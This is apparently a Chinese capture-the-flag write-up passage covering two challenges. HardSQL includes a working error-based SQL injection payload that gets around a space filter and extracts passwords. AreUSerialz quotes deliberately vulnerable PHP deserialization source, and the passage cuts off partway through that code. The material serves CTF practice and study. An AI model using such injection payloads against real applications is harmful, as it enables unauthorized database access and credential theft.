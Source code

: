 ## [极客大挑战 2019]HardSQL

> 考点：报错注入
>
> 空格过滤

这里略微写下，就不直接复现了

注意几个点：

1.在mysql里面过滤了空格可以用括号代替，比如`select(schema_name)from(information_schema.schemata)`

2.根据上面的可以用报错注入，`updatexml(1,语句,1)`

3.left可以看前面，当然right()就可以看后面，我这里用的是reverse()

```mysql
?username=1&password=2'or(updatexml(1,(concat('~',reverse((select(group_concat(concat(password,'-',id)))from(H4rDsq1))),'~')),1))%23
```

## [网鼎杯 2020 青龙组]AreUSerialz

> 考点：php反序列化
>
> php弱类型比较

阅读源码

```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
```
